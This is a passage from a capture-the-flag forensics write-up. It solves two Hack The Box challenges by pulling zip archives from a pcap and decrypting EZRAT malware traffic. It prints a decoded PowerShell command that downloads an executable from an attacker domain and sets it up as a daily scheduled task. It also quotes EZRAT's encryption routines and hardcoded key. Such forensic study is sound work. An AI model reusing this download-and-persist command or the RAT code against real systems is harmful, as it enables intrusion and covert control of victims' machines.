Then i transfer the pcap on my VM and open it with Network Miner with `file > open`.

<p align="center">
	
</p>

On the Message tab, i select a mail and right click on the attachment, then select `Open Folder`.

<p align="center">
	
</p>

We are redirected to the folder where all the mails and zip are listed.

<p align="center">
	
</p>

As i need to extract all of them with their corresponding password, i come back to the mail tab, and write a list of the password in the correct order, and same with the zip, to create a quick bash script which will extract all of them.

Here is the script.

> Note : You need to have 7zip installed, give it execution right using `chmod +x` and running it using `bash script.sh`.

```bash
#!/bin/bash
# sudo apt install 7zip

zip=('SecureFile.zip' 'SecureFile[1].zip' 'SecureFile[2].zip' 'SecureFile[3].zip' 'SecureFile[4].zip' 'SecureFile[5].zip' 'SecureFile[6].zip' 'SecureFile[7].zip' 'SecureFile[8].zip' 'SecureFile[9].zip' 'SecureFile[10].zip' 'SecureFile[11].zip' 'SecureFile[12].zip' 'SecureFile[13].zip' 'SecureFile[14].zip')

passwords=('S3W8yzixNoL8' 'r5Q6YQEcGWEF' 'TVm9aC1UycxF' 'jISlbC8145Ox' 'AdtJYhF4sFgv' 'j2SRRDraIvUZ' 'xh161WSXX7tB' 'yH5vqnkm7Ixa' 'tJPUTUfceO1P' '2qKlZHZlBPQz' 'mbkUvLZ1koxu' 'ZN4yKAYrtf8x' '0eA143t4432M' 'oea41WCJrWwN' 'gdOvbPtB0xCK')

for i in "${!zip[@]}"
	do
		7z x ${zip[$i]} -p${passwords[$i]}
	done
```

I transfere all the zip on my kali machine, and execute my script at the same location.

```bash
$ chmod +x eXtractor.sh

$ bash eXtractor.sh        

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=C.UTF-8 Threads:8 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 428 bytes (1 KiB)

Extracting archive: SecureFile.zip
--
Path = SecureFile.zip
Type = zip
Physical Size = 428

Everything is Ok

Size:       221
Compressed: 428

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=C.UTF-8 Threads:8 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 443 bytes (1 KiB)

Extracting archive: SecureFile[1].zip
...
```

Then i list files to confirm that everything worked as expected.

```bash
$ ls
 SecureFile.zip       'SecureFile[13].zip'  'SecureFile[3].zip'  'SecureFile[7].zip'   phreaks_plan.pdf.part1    phreaks_plan.pdf.part13   phreaks_plan.pdf.part3   phreaks_plan.pdf.part7
'SecureFile[10].zip'  'SecureFile[14].zip'  'SecureFile[4].zip'  'SecureFile[8].zip'   phreaks_plan.pdf.part10   phreaks_plan.pdf.part14   phreaks_plan.pdf.part4   phreaks_plan.pdf.part8
'SecureFile[11].zip'  'SecureFile[1].zip'   'SecureFile[5].zip'  'SecureFile[9].zip'   phreaks_plan.pdf.part11   phreaks_plan.pdf.part15   phreaks_plan.pdf.part5   phreaks_plan.pdf.part9
'SecureFile[12].zip'  'SecureFile[2].zip'   'SecureFile[6].zip'   eXtractor.sh         phreaks_plan.pdf.part12   phreaks_plan.pdf.part2    phreaks_plan.pdf.part6
```

Great, we unzipped all the zip archive, but now we got 15 part of a PDF.

So we need to find a way to merge them as one PDF. To do this we can use `cat` and the wildcard `*` to read them all at once and use `> phreaks_plan.pdf` to save the content to the `phreaks_plan.pdf` output. 

The wildcard will read them all in the chronological order because of the part numbers.

```bash
$ cat phreaks_plan.pdf.part* > phreaks_plan.pdf
```

Finally open the PDF.

```bash 
$ open phreaks_plan.pdf
```

<p align="center">
	
</p>

<p align="center">
	
</p>

And we found the flag at page 2!

> Note : Ok! It seem so easy, and so oblivious, but guess what? Can you imagine that once i got all the flag part i tried to craft the full PDF by using `cat` against part 1, save to output, then `cat` part 2, AND SAVE AT THE END OF THE PREVIOUS OUTPUT using `>> phreaks_plan.pdf` i end up with a corrupted PDF...

> So next what? Of course, i dig on a rabbit hole, come back to WireShark, look every request, digging into TLS and more... I've spent approximately 6 hours on this after retrieved all the PDF parts, because i was tired and made a terrible mistake to create the full PDF. Yeah. It happen. Anyway really nice challenge, i loved it :)

**FLAG : HTB{Th3Phr3aksReadyT0Att4ck}**


## Data Siege<a name="datasiege"></a>

Difficulty : **Medium**

Value : **300 points**

Challenge Description : 

`"It was a tranquil night in the Phreaks headquarters, when the entire district erupted in chaos. Unknown assailants, rumored to be a rogue foreign faction, have infiltrated the city's messaging system and critical infrastructure. Garbled transmissions crackle through the airwaves, spewing misinformation and disrupting communication channels. We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts."`

Attachments : 

- <a href="assets/challenges/forensics/DataSiege/forensics_data_siege.zip">forensics_data_siege.zip</a>


### Solution

First we notice that the description said that the flag is splitted in three parts, also we get the hint that `we need to understand which data has been obtained from this attack`. 

Download the zip attachments and unzip its content, we got a capture file `capture.pcap`.

I open it with Wireshark, and look the Protocol Hierarchy under `Statistics > Protocol Hierarchy`.

<p align="center">
	
</p>

We see that 98,4% of the packet are TCP request, where 2,3% are OpenWire which is a binary protocol designed for working with message-oriented middleware (from wikipedia), 4,8% are HTTP (6 packets only) and 21% are data. 

As there is only 6 packets using HTTP protocol, i filtered them using the `http` filter.

<p align="center">
	
</p>

We can see three GET request from `10.10.10.22` to `10.10.10.21`, two request seem identical against the `/nBISC4YJKs7j4I` endpoint. And another GET request against the `/aQ4caZ.exe` endpoint, which seem to be an executable.

First i follow the HTTP stream of `/nBISC4YJKs7j4I` by selecting it and using CTRL+ALT+SHIFT+H.

<p align="center">
	
</p>

This request send a PowerShell command to trigger the second GET request, which download the executable, save it, and run it.

Let's see if we can extract this executable from the capture. To do this i use `file > Export Objects > HTTP`.

<p align="center">
	
</p>

Perfect! We can extract the executable, i select it and extract it to an output folder.

Running `file` on it, we can see that it's a PE32 executable (console).

```bash
$ file aQ4caZ.exe 
aQ4caZ.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Running `strings` on it, we notice some interesting things.

```bash
$ strings aQ4caZ.exe                                                                                 
!This program cannot be run in DOS mode.
.text
`.rsrc
@.reloc
...
System.Collections.Generic
get_Id
Read
StopScreenSpyThread
isFileDownload
get_ScreenShotSpeed
set_ScreenShotSpeed
_screenShotSpeed
get_InvokeRequired
CancelClosed
get_Connected
get_Texted
set_Texted
...
Save
Receive
Move
EZRATClient.exe
get_Size
set_Size
writeSize
...
C:\Users\User\Downloads\EZRAT\EZRATClient\obj\Debug\EZRATClient.pdb
_CorExeMain
mscoree.dll
Very_S3cr3t_S
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0">
  <assemblyIdentity version="1.0.0.0" name="MyApplication.app"/>
  <trustInfo xmlns="urn:schemas-microsoft-com:asm.v2">
    <security>
      <requestedPrivileges xmlns="urn:schemas-microsoft-com:asm.v3">
        <requestedExecutionLevel level="asInvoker" uiAccess="false"/>
      </requestedPrivileges>
    </security>
  </trustInfo>
</assembly>
```

I removed a lot of the output, to get a better rendering in my WriteUp, but we can see that the function look like a malware.

Also, it seem that this malware executable is `EZRATClient.exe`.  A quick google search, and i find the original malware on GitHub, you can find it bellow.

<a href="https://github.com/Exo-poulpe/EZRAT">EZRAT</a>

EZRAT is a .NET malware written in C# for windows which had a lot of features (take a look to the GitHub repository).

Finally, we can see something which look like a part of the flag : `Very_S3cr3t_S`

**Flag Part? : Very_S3cr3t_S**

But what next? As i don't have enough information to know what to do with this, i came back to WireShark, follow the TCP stream of the GET request made on the executable, by selecting it and using "CTRL+ALT+SHIFT+T", and i start to look the next streams using the arrow at the bottom right of the window.

<p align="center">
	
</p>

From there we found a lot of encoded strings, which look like base64. And into these, we found a PowerShell command with another base64 string.

<p align="center">
	
</p>

Let's decode it.

```bash
$ echo "CgAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABGAGkAbABlACgAIgBoAHQAdABwAHMAOgAvAC8AdwBpAG4AZABvAHcAcwBsAGkAdgBlAHUAcABkAGEAdABlAHIALgBjAG8AbQAvADQAZgB2AGEALgBlAHgAZQAiACwAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIAKQAKAAoAJABhAGMAdABpAG8AbgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAQQBjAHQAaQBvAG4AIAAtAEUAeABlAGMAdQB0AGUAIAAiAEMAOgBcAFUAcwBlAHIAcwBcAHMAdgBjADAAMQBcAEEAcABwAEQAYQB0AGEAXABSAG8AYQBtAGkAbgBnAFwANABmAHYAYQAuAGUAeABlACIACgAKACQAdAByAGkAZwBnAGUAcgAgAD0AIABOAGUAdwAtAFMAYwBoAGUAZAB1AGwAZQBkAFQAYQBzAGsAVAByAGkAZwBnAGUAcgAgAC0ARABhAGkAbAB5ACAALQBBAHQAIAAyADoAMAAwAEEATQAKAAoAJABzAGUAdAB0AGkAbgBnAHMAIAA9ACAATgBlAHcALQBTAGMAaABlAGQAdQBsAGUAZABUAGEAcwBrAFMAZQB0AHQAaQBuAGcAcwBTAGUAdAAKAAoAIwAgADMAdABoACAAZgBsAGEAZwAgAHAAYQByAHQAOgAKAAoAUgBlAGcAaQBzAHQAZQByAC0AUwBjAGgAZQBkAHUAbABlAGQAVABhAHMAawAgAC0AVABhAHMAawBOAGEAbQBlACAAIgAwAHIAMwBkAF8AMQBuAF8ANwBoADMAXwBoADMANABkAHEAdQA0AHIANwAzAHIANQB9ACIAIAAtAEEAYwB0AGkAbwBuACAAJABhAGMAdABpAG8AbgAgAC0AVAByAGkAZwBnAGUAcgAgACQAdAByAGkAZwBnAGUAcgAgAC0AUwBlAHQAdABpAG4AZwBzACAAJABzAGUAdAB0AGkAbgBnAHMACgA=" | base64 -d

(New-Object System.Net.WebClient).DownloadFile("https://windowsliveupdater.com/4fva.exe", "C:\Users\svc01\AppData\Roaming\4fva.exe")

$action = New-ScheduledTaskAction -Execute "C:\Users\svc01\AppData\Roaming\4fva.exe"

$trigger = New-ScheduledTaskTrigger -Daily -At 2:00AM

$settings = New-ScheduledTaskSettingsSet

# 3th flag part:

Register-ScheduledTask -TaskName "0r3d_1n_7h3_h34dqu4r73r5}" -Action $action -Trigger $trigger -Settings $settings
```

It seem that this command download an executable from `https://windowsliveupdater.com`and execute it as ScheduledTask every day at `2:00AM`.

Also we get the third part of the flag!

**Third Flag Part : 0r3d_1n_7h3_h34dqu4r73r5}**

Now let's analyse the domain `https://windowsliveupdater.com`. To do this i used curl with the `-I` parameter to only show website information.

```bash 
$ curl -I https://windowsliveupdater.com/
HTTP/2 302 
date: Sat, 16 Mar 2024 13:32:15 GMT
location: http://makelaris.com
cache-control: private, max-age=0, no-store, no-cache, must-revalidate, post-check=0, pre-check=0
expires: Thu, 01 Jan 1970 00:00:01 GMT
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=%2FkFPFabIk%2BAJ6iinqC0DTuuRZpHniI%2Fob3UFzg12pqeaXRBnvNsVxyhTBfc2e11mv2vvwG0bURyy2WfmsCq4lEq4TrWfrsqXQJcEluer0nPw5KmFzXri5I%2F2rQuI6ZyVwUP7Je3afMzd"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 86551bb408ecd5a4-CDG
alt-svc: h3=":443"; ma=86400
```

As we can see from `location`, the domain redirect to another domain `http://makelaris.com`, now i repeat the process against this new domain.

```bash
$ curl -I http://makelaris.com           
HTTP/1.1 301 Moved Permanently
Date: Sat, 16 Mar 2024 13:32:27 GMT
Connection: keep-alive
Cache-Control: max-age=3600
Expires: Sat, 16 Mar 2024 14:32:27 GMT
Location: https://makelaris.com/
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=VmA7g1%2FFfHhLxAlluvd04b02vKVd1KlCYM4OiD0TXwcQAxTer5kpRTcS0dz%2BS4QIIxEx4uKhpVVX%2BXAzXTNoIpZmUEFtg45P2ei7%2FvsFeEJ8Weg9a4kPScMuOF1Nyag7"}],"group":"cf-nel","max_age":604800}
NEL: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
CF-RAY: 86551c028b1d6f82-CDG
alt-svc: h3=":443"; ma=86400
```

Error 302 Moved Permanently, look like the website redirect to the HTTPS, let's repeat it again.

```bash
$ curl -I https://makelaris.com
HTTP/2 200 
date: Sat, 16 Mar 2024 13:32:36 GMT
content-type: text/html
accept-ranges: bytes
last-modified: Sat, 24 Jul 2021 22:10:33 GMT
cf-cache-status: DYNAMIC
report-to: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=9jlRZCgWCuGU5wCCQzpZ9lZNT9eaxAk4iPeHIFLGOqEpoHCPBg0H5thOjLx19HzUqp7zIr0sndbhuNdQ1wGG45iLOzHA7jjUszoMNoHoWdynh1mYMNdKd0xErR%2FqmJ4a"}],"group":"cf-nel","max_age":604800}
nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
server: cloudflare
cf-ray: 86551c3599482a1f-CDG
alt-svc: h3=":443"; ma=86400
```

No redirection anymore, now let's use `curl` without parameter, to see the source of the main page and see what going on there.

```bash
$ curl https://makelaris.com  
<html>
<head>
        <link href="https://unpkg.com/tailwindcss@^2/dist/tailwind.min.css" rel="stylesheet">
</head>
<body class="bg-gray-900">
        <div class="flex justify-center items-center h-screen">
                <div class="m-auto">
                        <p class="text-2xl text-gray-400">
                                Redirecting...
                        </p>
                </div>
        </div>
</body>
<script>
setTimeout(() => {
        window.location.href = 'https://www.youtube.com/watch?v=dQw4w9WgXcQ';
}, 2000);
</script>
</html>
```

Oh! Look like a sneaky redirection! To a YouTube URL... you know what this will lead to... right? RIGHT? 

Let's browse it!

<p align="center">
	
</p>

And we are Rick Rolled!

Ok, now i guess that we need to decode all the base64 found in the request where we found the PowerShell encoded command. The problem? I'm not able to decode these!

So i take a look at the source code of EZRATClient on GitHub, to understand how work the malware.

<a href="https://github.com/Exo-poulpe/EZRAT/blob/master/EZRATClient/Program.cs">EZRATClient - Program.cs Source Code</a>

From there, i discovered two functions to Encrypt and Decrypt the stolen data!

Encrypt function :

```c#

        public static string Encrypt(string clearText)
        {
            try
            {
                string EncryptionKey = EncryptKey; //Encryption key
                byte[] clearBytes = Encoding.Default.GetBytes(clearText); //Bytes of the message
                using (Aes encryptor = Aes.Create()) //Create a new AES decryptor
                {
                    //Encrypt the data
                    Rfc2898DeriveBytes pdb = new Rfc2898DeriveBytes(EncryptionKey, new byte[] { 0x49, 0x76, 0x61, 0x6e, 0x20, 0x4d, 0x65, 0x64, 0x76, 0x65, 0x64, 0x65, 0x76 });
                    encryptor.Key = pdb.GetBytes(32);
                    encryptor.IV = pdb.GetBytes(16);

                    using (MemoryStream ms = new MemoryStream())
                    {
                        using (CryptoStream cs = new CryptoStream(ms, encryptor.CreateEncryptor(), CryptoStreamMode.Write))
                        {
                            cs.Write(clearBytes, 0, clearBytes.Length);
                            cs.Close();
                        }
                        clearText = Convert.ToBase64String(ms.ToArray());
                    }
                }
                return clearText; //Return the encrypted text
            }
            catch (Exception) //Something went wrong
            {
                return clearText; //Send the plain text data
            }
        }
```

It seem that the data are encrypted using a key.

```c#
                string EncryptionKey = EncryptKey; //Encryption key
                byte[] clearBytes = Encoding.Default.GetBytes(clearText); //Bytes of the message
```

And using AES algorithm

```c#
using (Aes encryptor = Aes.Create())`)
```

And encrypted with a key derivation.

```c#
                    Rfc2898DeriveBytes pdb = new Rfc2898DeriveBytes(EncryptionKey, new byte[] { 0x49, 0x76, 0x61, 0x6e, 0x20, 0x4d, 0x65, 0x64, 0x76, 0x65, 0x64, 0x65, 0x76 });
                    encryptor.Key = pdb.GetBytes(32);
                    encryptor.IV = pdb.GetBytes(16);
```

And converted to base64, this is why we wasn't able to decode the base64 strings. 

```c#
clearText = Convert.ToBase64String(ms.ToArray());
```

Decrypt function : 

```
        /// <summary>
        /// Decrypt encrypted data
        /// </summary>
        /// <param name="cipherText">The data to decrypt</param>
        /// <returns>The plain text message</returns>
        public static string Decrypt(string cipherText)
        {
            try
            {
                string EncryptionKey = EncryptKey; //this is the secret encryption key  you want to hide dont show it to other guys
                byte[] cipherBytes = Convert.FromBase64String(cipherText); //Get the encrypted message's bytes
                using (Aes encryptor = Aes.Create()) //Create a new AES object
                {
                    //Decrypt the text
                    Rfc2898DeriveBytes pdb = new Rfc2898DeriveBytes(EncryptionKey, new byte[] { 0x49, 0x76, 0x61, 0x6e, 0x20, 0x4d, 0x65, 0x64, 0x76, 0x65, 0x64, 0x65, 0x76 });
                    encryptor.Key = pdb.GetBytes(32);
                    encryptor.IV = pdb.GetBytes(16);
                    using (MemoryStream ms = new MemoryStream())
                    {
                        using (CryptoStream cs = new CryptoStream(ms, encryptor.CreateDecryptor(), CryptoStreamMode.Write))
                        {
                            cs.Write(cipherBytes, 0, cipherBytes.Length);
                            cs.Close();
                        }
                        cipherText = Encoding.Default.GetString(ms.ToArray());
                    }
                }
                return cipherText; //Return the plain text data
            }
            catch (Exception ex) //Something went wrong
            {
                Console.WriteLine(ex.Message);
                Console.WriteLine("Cipher Text: " + cipherText);
                return "error"; //Return error
            }
        }
```

Great. So we know that the code contain the decryption function, which will help us to decrypt the data.

But we need the key, and also, nothing said that the code isn't modified to encrypt data using another method.

So i continue to read the sources of the EZRATClient, and find this source code where to find the encrypt key.

<a href="https://github.com/Exo-poulpe/EZRAT/blob/master/EZRATClient/Utils/Constantes.cs">EZRATClient - Constantes.cs Source Code</a>

```C#
        private static string _ip = "192.168.1.112";
        private static int _port = 1234;
        private static int _screenShotSpeed = 100;
        private static string _version = "0.1.6.1";
        private static string _encryptKey = "POULPE212123542345235";
        private static Size _defaultCompressionSize = new Size(1280, 720);
        private static string _separator = "|";
        private static string _special_Separator = "¦";
        private static Thread _spy;
```

Great. My next goal was to do the same process on the extracted executable from the capture.

And as the executable is in .NET, we can disassemble it.

At the moment to solve the challenge i used DotPeek from JetBrains, on my windows machine to do the work, you can find this tool bellow.

<a href="https://www.jetbrains.com/decompiler/">JetBrains Decompiler - DotPeek</a>

But this time i will use AvaloniaILSpy from <a href="https://github.com/icsharpcode">icsharpcode</a>, directly on my Kali Linux machine, you can find the tool bellow.

<a href="https://github.com/icsharpcode/AvaloniaILSpy">AvaloniaILSpy</a>

I download the tool, run it and open the extracted malware using `File > open`. Then i take a look to the decrypt function found in the `Program.cs` source code.

<p align="center">
	
</p>

As we can see, it seem a bit different than the one that we analyzed from EZRAT GitHub source code.

And then i go retrieve the encrypt key in the `Constantes.cs` source code.

<p align="center">
	
</p>

Now that we got everything, time to make the decoder!

I start by copy pasting the decrypt function to a new file, add the needed library, and englobe the function into a `Public class Program`.

I end up with this template code.

```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static string Decrypt(string cipherText)
	{
		try
		{
			string encryptKey = Constantes.EncryptKey;
			byte[] array = Convert.FromBase64String(cipherText);
			using (Aes aes = Aes.Create())
			{
				Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
				{
					86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
					116, 95, 83
				});
				aes.Key = rfc2898DeriveBytes.GetBytes(32);
				aes.IV = rfc2898DeriveBytes.GetBytes(16);
				using MemoryStream memoryStream = new MemoryStream();
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
				{
					cryptoStream.Write(array, 0, array.Length);
					cryptoStream.Close();
				}
				cipherText = Encoding.Default.GetString(memoryStream.ToArray());
			}
			return cipherText;
		}
		catch (Exception ex)
		{
			Console.WriteLine(ex.Message);
			Console.WriteLine("Cipher Text: " + cipherText);
			return "error";
		}
	}
}
```

From there, i replace the `public static strings Decrypt(string cipherText)` with a `public static void Main(string[] args).

Then i need to change some variables as i doesn't have the full code, the `Constantes.EncryptKey` will not work. To do this i replace it by the key directly.

Then i need to declare what is `cipherText`, for this i use `Console.WriteLine` and `Console.ReadLine` to pass it as user input.

The script look like this at this moment.

```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main(string[] args)
	{
		try
		{
			string encryptKey = "VYAemVeO3zUDTL6N62kVA";
			Console.WriteLine("Enter you'r Encrypted Data : ");
			string cipherText = Console.ReadLine();
			byte[] array = Convert.FromBase64String(cipherText);
			using (Aes aes = Aes.Create())
			{
				Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
				{
					86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
					116, 95, 83
				});
				aes.Key = rfc2898DeriveBytes.GetBytes(32);
				aes.IV = rfc2898DeriveBytes.GetBytes(16);
				using MemoryStream memoryStream = new MemoryStream();
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
				{
					cryptoStream.Write(array, 0, array.Length);
					cryptoStream.Close();
				}
				cipherText = Encoding.Default.GetString(memoryStream.ToArray());
			}
			return cipherText;
		}
		catch (Exception ex)
		{
			Console.WriteLine(ex.Message);
			Console.WriteLine("Cipher Text: " + cipherText);
			return "error";
		}
	}
}
```

I save it as `decryptor.cs`, and install `mono-complete` to compile it and runing the exe on linux.

```bash
$ sudo apt install mono-complete
```

Now i try to compile it.

```bash
$ mcs decryptor.cs
decryptor.cs(25,10): error CS1525: Unexpected symbol `MemoryStream', expecting `('
Compilation failed: 1 error(s), 0 warnings
```

I got an error, but not on my change, an error on the function that i copied... But as i said, the function seem different than the one that i analyzed on EZRAT GitHub.

So i came back to the original source code on GitHub, and start to compare them.

<a href="https://github.com/Exo-poulpe/EZRAT/blob/master/EZRATClient/Program.cs">EZRATClient - Program.cs Source Code</a>

And in it, i find that the code seem different where my error is caused.

```c#
using (MemoryStream ms = new MemoryStream())
{
	using (CryptoStream cs = new CryptoStream(ms, encryptor.CreateDecryptor(), CryptoStreamMode.Write))
    {
        cs.Write(cipherBytes, 0, cipherBytes.Length);
        cs.Close();
    }
    cipherText = Encoding.Default.GetString(ms.ToArray());
}
```

So i adapt my script, to respect this format. And now my code look like this.

```c#
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main(string[] args)
	{
		try
		{
			string encryptKey = "VYAemVeO3zUDTL6N62kVA";
			Console.WriteLine("Enter you'r Encrypted Data : ");
			string cipherText = Console.ReadLine();
			byte[] array = Convert.FromBase64String(cipherText);
			using (Aes aes = Aes.Create())
			{
				Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
				{
					86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
					116, 95, 83
				});
				aes.Key = rfc2898DeriveBytes.GetBytes(32);
				aes.IV = rfc2898DeriveBytes.GetBytes(16);
				using (MemoryStream memoryStream = new MemoryStream())
				{
					using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
					{
						cryptoStream.Write(array, 0, array.Length);
						cryptoStream.Close();
					}
					cipherText = Encoding.Default.GetString(memoryStream.ToArray());
				}
			}
			return cipherText;
		}
		catch (Exception ex)
		{
			Console.WriteLine(ex.Message);
			Console.WriteLine("Cipher Text: " + cipherText);
			return "error";
		}
	}
}
```

But again, i got other compilation error.

```bash
$ mcs decryptor.cs
decryptor.cs(37,4): error CS0127: `Program.Main(string[])': A return keyword must not be followed by any expression when method returns void                                                                                                                                    
decryptor.cs(42,40): error CS0103: The name `cipherText' does not exist in the current context
decryptor.cs(43,4): error CS0127: `Program.Main(string[])': A return keyword must not be followed by any expression when method returns void                                                                                                                                    
Compilation failed: 3 error(s), 0 warnings
```

Apparently, the `return cipherText;` and and `return "error"`, give me some error, also `cipherText` seem not taking in count, due to be outside the glob.

To fix this, i just deleted and replace them with some `Console.WriteLine`. Also i noticed that the last `catch (Exception ex)` is not at the correct position so i fixed that too.

Now my script look like this.

```c#
// Custom EZRAT Decryptor
// Made (fixed/modified) by v0lk3n to solve DataSiege challenge from HTB Cyber Apocalypse CTF 2024
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class Program
{
	public static void Main(string[] args)
	{
		try
		{
			string encryptKey = "VYAemVeO3zUDTL6N62kVA";
			Console.WriteLine("Enter you'r Encrypted Data : ");
			string cipherText = Console.ReadLine();
			byte[] array = Convert.FromBase64String(cipherText);
			using (Aes aes = Aes.Create())
			{
				Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
				{
					86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
					116, 95, 83
				});
				aes.Key = rfc2898DeriveBytes.GetBytes(32);
				aes.IV = rfc2898DeriveBytes.GetBytes(16);
				using (MemoryStream memoryStream = new MemoryStream())
				{
					using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
					{
						cryptoStream.Write(array, 0, array.Length);
						cryptoStream.Close();
					}
					cipherText = Encoding.Default.GetString(memoryStream.ToArray());
					Console.WriteLine("Decoded Text : " + cipherText);
				}
			}
		}
	catch (Exception ex)
	{
		Console.WriteLine("Something went wrong...");
		Console.WriteLine(ex.Message);
	}
	}
}
```

I try to compile it, and it seem to be a success! I end up with an executable called `decryptor.exe`.

```bash
$ mcs decryptor.cs

$ ls decryptor*
decryptor.cs  decryptor.exe
```

Let's try to run it using `mono` to look if everything work as intended.

```bash
$ mono decryptor.exe
Enter you'r Encrypted Data : 

Something went wrong...
Bad PKCS7 padding. Invalid length 0.
```

Great! Now that our decoder is ready, we need to retrieve all the encrypted data to decrypt them. First i come back to WireShark and analyse few of the request containing the data.

<p align="center">
	
</p>

We can see that all of those request are made on the port `1234`, so i use `tshark` to dump all of the requests in hexadecimal format, to a file named `encrypted_data.txt`.

```bash
$ tshark -r capture.pcap -T fields -e data -Y "tcp.port == 1234" > encrypted_data.txt
```

Then i made a quick bash script which will read each line of the hexadecimal text file and decode those using `xxd`, and save the output to a file. 

```bash
file='encrypted_data.txt'
while read line; do
        echo "$line" | xxd -r -p && echo ""
done < "$file"
```

I give it execution right and run it.

```bash
$ chmod +x hex2b64.txt
$ bash hex2b64.txt
```

Now i have a more readable file, but we need to take care of the beginning of each line which seem to contain the data length, this made the base64 getting invalid characters. 

Here is the beginning of the text file for example.

```bash
$ bash test.sh
24�1BhuY4/niTopIBHAN6vvmQ==

gs1pJD3U5aold1QaI/LdE+huVKxpC/azbuWUTstbgrbAU9zWdG7mtO0k+T9Mr0X8OBKR254z6toIOEZjd4PACN8tD+nT2n3Pun5DAbmX31vvI+BHavd4pDHEo26YKaUw

24�F7fKMiKsoErWh0rg6Tr6kQ==
```

And we start to decode them one by one using our decoder.

There is one string that i failed to decrypt that you can see bellow (maybe it should be decoded to a file or there is two base64 in one line).

```bash
hd9/dvrzWgofwcBszMirELZ+r8RiAIEE2E/qD+dCASoiBWXnjivrjeBODIONHayi77lc+x5th+BLopbErWE5layW1rIbd153dm3QEI1VSqWw1u601+ojKEGJk4lSM5ADuLwZ1l17ZVAca2b6q/QtMeh+SfrFDwalSnj8ewlVTGbArE5T3Z5INMabxVs6tkWVTogO8xUlimooQVKA31rylWymEFPQK39CH0dZEgjLCrFfd0B4RlBStcu4DP9HNN1/Rd7iJg3GdZ57n7CLFM9/CMNSadQz0ReD+wF/0KDCUmd98HNUc4FgfaPTRLjauAdzL9JIk4SW+mGTIamOOv0aiuuKOYvvmYETsegEJZOxEXPE8PoC+SxhkzLrfz5bRC8a2bcAfzOjJeSOJRD5hkStpSrvAfaW7zCdOpYnw7cy7892SahPCwvp8Kz3OdY9SvlQI4baopcvR05lqEe/tLIxc5HoVfg+trdA0MnwrdlpAFTQjkDH7DSbmcxUGsg1rCzLVBsBU+dSZdJYdazCSrvWSA+HOayCbfk3X6XSRGvre4rFgYpuKSW+vYHNHvp2tyuiP3RrwpqjlD4fwcC9Q44YyCrqscFBOvZJrbbt+Xb92Cbq5wAVfqMK3Y3c/Y8GABPriAmrMnlKZrZx1OKxBeQAUTurmLJNTUbsJZRcUn2ErvPbe/JFoxTr/JsWN9Z8Y0IDvfDCODxEW/DtqKXPku+6DzI6VJEccAl8pzC6dr702atB4d2YHA7x8bQOV72BZUzJHrEL2pJY/VIDqGXHS0YKZuHGTOswG8PP2YFA9SwCqQbxE14jVeGCwYB6pBfeEdDRCjOZ4UFL9oDwoeVCNHq5j271UIuoWqPIM177s+W97boJOjMIsv/KnNIjCMzclZhzvb+qk3GGRCWB2Rax9SLFH+NANMnsS/a3XNji/Paot3mVBR1O6edahs+x1HkmnZ3ezDQhhKGXiTZxZBaKWfBYT0Fbq0TigGunfob86+gt3zx9ITBKV07Z6Fh7FvqZsOvXal73yG4U3/YiIz/H84XsQvIKCNgw3Fb+liYUBFjIc/rcJ1e5xEfVJAGSyykCFj36cknl7L2/FzQILoLoWbKNDTBT76mF/JaNDU4em6zklDOcvgHqWgHxAEA1v64vTVshQT/O8lP+sRBgIGCK7x00+WuVXpicf1h5qSkwvwzUWndL08jirLj8/R3BdSnIOK6HsLSAzB+S44FStNc4aoNSJdq4oGmgnrOf7BH+Ew3kpbL6zY/ODsITC3liFH0BrkLMGONmdb0jfwUMbt5FGUmNJijVwxF/FvN2N6WG/f8cnvUQLnCChGyOH+yMZmPaLS+JCnFJ8vokmfr